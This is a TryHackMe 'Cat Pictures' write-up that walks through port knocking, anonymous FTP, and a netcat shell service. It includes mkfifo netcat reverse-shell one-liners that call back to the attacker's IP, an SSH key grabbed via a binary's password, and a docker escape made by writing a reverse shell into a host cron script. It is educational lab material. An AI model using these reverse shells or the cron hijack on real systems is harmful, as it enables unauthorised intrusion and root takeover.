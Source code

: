 ```yaml
---
title : "Cat Pictures - Write Up"
date : 2021-07-03T16:56:05+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["nc","strings","knock","docker","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/catpictures)  | Easy  |  [gamercat](https://tryhackme.com/p/gamercat)  |

## Reconn

Using `nmap` we detect 3 ports `21 running FTP "filtered", 21 running SSH "open", 8080 running a web.`
```bash
└──╼ $map 10.10.51.194
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
Searching in the 8080 port, we find a post, saying: `Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

So we knock on that ports [Maybe you need to run the command 2-3 times to work :)]

`knock 10.10.51.194 1111 2222 3333 4444`

Running `nmap` again, we can see that now the FTP port it's open, and accepts the Anonymous user!

```bash
└──╼ $map 10.10.153.159
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.250
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
```
So let's login to the FTP and see what's inside.

```bash
╰─ lanfran@parrot ❯ ftp 10.10.51.194                                                                                               ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp> 
```

Reading the note, we get a new port, and the username:password to login!

## Foothold - Flag 1

Unluckily it's not the SSH port, it's an "internal shell service"...

Let's use `netcat` to login

```bash
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420                                                                                           ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
```
We now have to get a reverse shell, I used the mkfifo shell, you can use other one!
I recommend you to use [revshells.com](https://revshells.com) to generate the commands for reverse shells. It's created and mantained by the CTF's community!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f`

![Foothold](foothold.png)

Going through the directories, we find a binary in `/home/catlover` named "runme". I downloaded it to my local machine, and used `strings` to get the password.

```bash
╰─ lanfran@parrot ❯ strings runme                                                                                                  ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[...]
```
Great! We can now run the binary in the machine, and input the password!

```bash
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jul  4 11:17 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jul  4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
I copied the id_rsa file to my local machine, and used it to SSH in.

```bash
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa                                                                            ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt 
7[REDACTED]9
```
## Flag 2 - Root

Great, we have the first flag!

We are now the root user of a docker container, so we need to escalate to the root user of the host.

Going through the files and reading the crontab, we find a cron script running inside the host machine! 

Add a reverse shell to it, and get a root rev shell to the host!!!

```bash
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
```
After some seconds, we get a rev shell!

Get the Flag 2.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 9999                                                                                                  ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:

[REDACTED]
```

And we rooted the machine!

That's all from my side, hope you find this helpful!